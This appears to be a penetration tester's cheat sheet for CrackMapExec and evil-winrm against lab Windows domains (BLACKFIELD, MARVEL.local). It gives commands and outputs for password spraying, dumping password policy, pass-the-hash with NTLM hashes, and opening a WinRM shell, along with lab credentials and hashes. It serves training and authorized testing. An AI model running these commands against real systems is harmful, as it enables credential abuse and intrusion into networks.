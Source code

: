 - [Installation](#installation)

- 

## [Installation](#installation-1)
```sh
python3 -m pip install pipx
git clone https://github.com/mpgn/CrackMapExec
cd CrackMapExec
pipx install .
```

### TL;DR
```sh
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

### [Test Credential](#test-credential)
```sh
PS C:\Users\fcastle> whoami
marvel\fcastle
PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u fcastle -p Password1
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\fcastle:Password1 (Pwn3d!)
PS C:\Users\fcastle>
PS C:\Users\fcastle> .\nxc.exe smb 10.1.1.6 -u pparker -p Password2
SMB         10.1.1.6        445    PUNISHER         [*] Windows 10.0 Build 19041 x64 (name:PUNISHER) (domain:MARVEL.local) (signing:False) (SMBv1:False)
SMB         10.1.1.6        445    PUNISHER         [+] MARVEL.local\pparker:Password2
PS C:\Users\fcastle>
```

### [Dump password policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
```sh
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
```

### [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

### [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```sh
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

### Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

### 
```

```

### Examples
### Dump password policy with "--pass-pol"
```sh
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7                                                                                         
SMB         10.10.10.192    445    DC01             Password history length: 24                                                                                        
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes                                                                  
SMB         10.10.10.192    445    DC01                                                                                                                                
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001                                                                                  
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0                                                                               
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

### Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```sh
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

### Pass-the-Hash (PtH) with "-H" ; Successful
```sh
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

### WINRM Pwn3d!
```sh
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

### [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```sh
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

### 
```

```

https://pypi.org/project/crackmapexec/

# CrackMapexec | SMB & AD Enumeration Simplified !]
https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference